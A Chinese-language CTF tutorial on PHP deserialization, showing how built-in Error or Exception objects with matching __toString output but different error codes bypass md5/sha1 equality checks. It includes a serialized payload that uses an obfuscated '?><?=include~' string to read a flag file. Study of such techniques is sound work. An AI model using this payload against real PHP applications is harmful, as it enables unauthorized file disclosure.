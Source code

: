 # 利用php原生类反序列化

## 1、场景

* 在php反序列化题目中，有对md5或sha1相等但内容不等的判断，由于在类中，无法对属性使用数组绕过，所以我们可以使用含有 toString 方法的PHP内置类来绕过，用的两个比较多的内置类就是 Exception 和 Error ，他们之中有一个 toString 方法，当类被当做字符串处理时，就会调用这个函数

## 2、使用原理

```php
<?php
    $a = new Error('payload',1);
	echo $a;

Error:payload
```

* 我们发现会以字符串的形式输出当前报错，包含当前的错误信息（payload）以及当前报错的行号（2），而传入 Error(“payload”,1) 中的错误代码“1”则没有输出出来，如果在同一行创建两个Error对象，其payload相同而后面的数字不同，即为两个不同的对象，但是 toString 方法返回的结果是相同的，通过将题目代码中的两个类属性分别声明为类似上面的内置类的对象，让这两个对象本身不同（传入的错误代码即可），但是 toString 方法输出的结果相同即可，如：

```
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));
```

